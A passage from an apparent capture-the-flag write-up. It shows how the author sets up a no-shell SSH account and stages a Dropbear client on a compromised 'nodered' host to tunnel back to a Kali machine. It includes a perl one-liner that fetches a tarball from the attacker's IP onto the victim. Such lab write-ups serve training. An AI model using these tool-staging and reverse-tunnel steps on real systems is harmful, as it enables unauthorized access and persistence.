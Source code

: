 That makes it much harder for someone who gets ahold of the key I'm
about to create to do anything useful hacking into my host. If you try
to `ssh` into my box as dummy, it just closes:



    root@kali# ssh dummy@localhost
    dummy@localhost's password: 
    Linux kali 4.18.0-kali3-amd64 #1 SMP Debian 4.18.20-2kali2 (2018-11-30) x86_64

    The programs included with the Kali GNU/Linux system are free software;
    the exact distribution terms for each program are described in the
    individual files in /usr/share/doc/*/copyright.

    Kali GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
    permitted by applicable law.
    Last login: Thu Jan 17 06:28:18 2019 from 127.0.0.1
    Connection to localhost closed.



I can use the `-N` flag to connect without a shell, and the `-L`, `-R`,
`-D` flags to forward ports (check out my [Intro to SSH
Tunneling](/intro-to-ssh-tunneling.md) for more details).

#### Build Dropbear

[Dropbear](https://matt.ucc.asn.au/dropbear/dropbear.md) is a
statically compiled, relatively small ssh client that I will use to
connect back to my kali box from nodered. I'll grab the source from the
website. I'll copy the file to nodered using the file upload flow or the
perl command to get a file over http:



    # perl -e 'use File::Fetch; my $url = "http://10.10.14.14/dropbear-2018.76.tar.bz2"; my $ff = File::Fetch->new(uri => $url); my $file = $ff->fetch() or die $ff->error;'

    # pwd
    /tmp

    # ls
    dropbear-2018.76.tar.bz2



Open the archive with `tar`:



    # tar xjvf dropbear-2018.76.tar.bz2                                                      
    dropbear-2018.76/                                                                        
    dropbear-2018.76/termcodes.h                                                  
    dropbear-2018.76/dbmulti.c                                                                
    dropbear-2018.76/cli-runopts.c  
    ...[snip]...
